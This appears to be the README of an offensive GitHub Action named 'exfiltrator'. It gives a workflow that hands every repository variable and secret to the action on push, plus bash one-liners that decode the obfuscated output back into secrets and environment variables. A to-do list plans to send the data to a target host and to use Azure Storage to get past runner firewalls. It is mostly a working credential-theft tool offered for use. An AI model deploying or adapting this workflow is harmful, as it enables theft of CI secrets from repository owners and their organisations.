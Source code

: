 ## Background

All the contexts: https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/accessing-contextual-information-about-workflow-runs
Printing context to logs: https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/accessing-contextual-information-about-workflow-runs#about-contexts

## Usage

``` yml
on: push

jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will exfil secrets
    steps:
      - uses: offensive-actions/exfiltrator@main
        with:
          vars: ${{ toJSON(vars) }}
          secrets: ${{ toJSON(secrets) }}
```

``` bash
# all of it
echo <output> | base64 -d | rev | jq

# only envvars
echo <output> | base64 -d | rev | jq -r '.[0].envvars' | base64 -d
```

## Next steps

1. Add target host to send data to
2. Fix base64 error on macOS, there is no -w option
3. Exfil to Azure Storage Account because of firewall exception for https://docs.github.com/en/actions/hosting-your-own-runners/managing-self-hosted-runners/about-self-hosted-runners#communication-between-self-hosted-runners-and-github
